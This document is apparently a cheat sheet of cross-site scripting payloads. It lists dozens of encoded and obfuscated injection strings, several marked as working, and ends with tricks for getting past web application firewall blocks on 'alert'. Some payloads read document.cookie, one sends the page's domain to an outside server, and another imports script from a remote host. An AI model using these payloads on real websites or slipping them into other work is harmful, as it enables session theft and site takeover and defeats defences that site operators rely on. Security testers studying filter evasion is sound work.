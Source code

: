 "><sVg/OnLuFy="X=y"oNloaD=;1^confirm(1)>/``^1//
">-setTimeout`\u0028alert(1)\u0029`-'
<a"/onclick=(confirm)()>Click Here!
%3Cimg%2Fsrc%2Fonerror%3Dalert%2F%2F%26NewLine%3B%282%29%3E
<svg onload=prompt%26%230000000040document.domain)>
<svg onload=prompt%26%23x000000028;document.domain)>
xss'"><iframe srcdoc='%26lt;script>;prompt`${document.domain}`%26lt;/script>'>
<a href="j&Tab;a&Tab;v&Tab;asc&NewLine;ri&Tab;pt&colon;&lpar;a&Tab;l&Tab;e&Tab;r&Tab;t&Tab;(document.domain)&rpar;">X</a>
<--%253cimg%20onerror=alert(1)%20src=a%253e --!>
<a+HREF='%26%237javascrip%26%239t:alert%26lpar;document.domain)'>
javascript:{ alert`0` }
1'"><img/src/onerror=.1|alert``>
<img src=x onError=import('//1152848220/')>
%2sscript%2ualert()%2s/script%2u
<svg on onload=(alert)(document.domain)>
<img ignored=() src=x onerror=prompt(1)>
<svg onx=() onload=(confirm)(1)>
“><img%20src=x%20onmouseover=prompt%26%2300000000000000000040;document.cookie%26%2300000000000000000041;
<svg on =i onload=alert(domain) (working)
<svg/onload=location/**/='https://your.server/'+document.domain>
<svg onx=() onload=window.alert?.()> (working)
test",prompt%0A/*HelloWorld*/(document.domain) (working)
"onx+%00+onpointerenter%3dalert(domain)+x" (working)
"><svg%20onload=alert%26%230000000040"1")> (working)
%27%09);%0d%0a%09%09[1].find(alert)//
"><img src=1 onmouseleave=print()> 
<svg on onload=(alert)(document.domain)>
<svg/on%20onload=alert(1)> (working) 
<img/src=x onError="`${x}`;alert(`Ex.Mi`);"> 
';a=prompt,a()//  
'-eval("window['pro'%2B'mpt'](8)")-'  
"-eval("window['pro'%2B'mpt'](8)")-"  
"onclick=prompt(8)>"@x.y  
=="onclick=prompt(8)><svg/onload=prompt(8)>"@x.y==


Use this tricks to bypass ``alert`` block by XSS WAF

  

(function(x){this[x+``ert``](1)})``al``
window[``al``+/e/[``ex``+``ec``]``e``+``rt``](2)
document['default'+'View'][``\u0061lert``](3)
this.ownerDocument.defaultView['\u0061lert'](